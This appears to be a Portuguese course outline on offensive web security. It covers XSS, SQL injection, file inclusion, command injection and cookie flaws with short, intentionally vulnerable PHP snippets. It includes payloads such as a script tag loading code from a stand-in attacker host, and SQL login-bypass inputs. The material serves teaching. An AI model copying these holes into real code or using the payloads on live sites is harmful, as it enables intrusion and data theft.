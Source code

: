 # Segurança ofensiva

### Introdução
- Blackhats x Whitehats
- Mercado de segurança da informação

### [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
- Refletido:
```php
# http://localhost/xss.php?mensagem=<script>alert('XSS');</script>
# http://localhost/xss.php?mensagem=<marquee><h1>XSS</h1></marquee>
# http://localhost/xss.php?mensagem=<script src=http://atacante.segphp4linux.com.br/domal.js></script>

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- Residente:
```php
# http://localhost/xss_residente.php?mensagem=<script>alert('XSS');</script>

session_start();

if (isset($_GET['variavel'])) {
    $_SESSION['variavel'] = $_GET['variavel'];
}

echo isset($_SESSION['variavel']) ? $_GET['variavel'] : "" ;
```

- XSHM - Cross-Site History Manipulation
```php
/*
http://vitima.segphp4linux/xss_xshm.php?mensagem=<script>alert(history.length);</script>
*/

echo isset($_GET['mensagem']) ? $_GET['mensagem'] : '';
```

- [CSRF - Cross-Site Request Forgery](https://pt.wikipedia.org/wiki/Cross-site_request_forgery)

- [Click Jacking](http://sectheory.com/clickjacking.htm) - [exemplo](http://koto.github.io/blog-kotowicz-net-examples/cursorjacking/)

### [SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)
- [Comum](scripts/sqli/sqlinjection.php)
```php
# login=' or '1'='1
# senha=' or '1'='1

if ($_POST) {
    $query = "SELECT * FROM usuarios WHERE user='$user' AND pass='$pass' ";

    echo $query;
}
```
- Union inband
- Batched
- Blind
- Error Based

### [LDAP Injection](https://www.owasp.org/index.php/LDAP_Injection_Prevention_Cheat_Sheet)

### [Insecure Cookie Handling](http://kb.enprobe.io/vulnerabilities/insecure-cookies.html)
-- Exemplo
```php
if ($_GET['login'] == 'naousehardcode' && $_GET['senha'] == 'naousehardcode') {
    setcookie('autenticado', 1);
}

if (!$_COOKIE['autenticado'] == 1) {
    die('Usuario nao autenticado!');
}
```

- [RFI/LFI - Remote/Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
-- Exemplo
```php
require($_GET['modulo']);
```

- [Command Injection](https://www.owasp.org/index.php/Command_Injection)
-- Exemplo
```php
system($_GET['comando']);
```

- [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)

- [Web Crawlers](https://pt.wikipedia.org/wiki/Rastreador_web)
-- Exemplo
```php
# Exemplo: https://stackoverflow.com/a/2313146

function crawl_page($url, $depth = 5) {
    if($depth > 0) {
        $html = file_get_contents($url);

        preg_match_all('~<a.*?href="(.*?)".*?>~', $html, $matches);

        foreach($matches[1] as $newurl) {
            crawl_page($newurl, $depth - 1);
        }

        file_put_contents('results.txt', $newurl."\n\n".$html."\n\n", FILE_APPEND);
    }
}

crawl_page('http://www.domain.com/index.php', 5);
```

- [Session fixation/hijacking](https://www.owasp.org/index.php/Session_fixation)

### [Brute force](https://pt.wikipedia.org/wiki/Ataque_de_for%C3%A7a_bruta)

### [Man In The Middle](https://www.owasp.org/index.php/Man-in-the-middle_attack)

### [DDOS](https://pt.wikipedia.org/wiki/Ataque_de_nega%C3%A7%C3%A3o_de_servi%C3%A7o)

### Algumas Ferramentas
- [Kali Linux](https://www.kali.org/)
- [Metasploint](https://www.metasploit.com/)
- [nmap](https://nmap.org/)
- [tcpdump](https://www.tcpdump.org/tcpdump_man.html)
- [Wireshark](https://www.wireshark.org/)
- [Ettercap](http://www.ettercap-project.org/ettercap/)
- [SQLMap](http://sqlmap.org/)
- [PHP Crawler](http://phpcrawl.cuab.de/)
- [John the Ripper](http://www.openwall.com/john/)
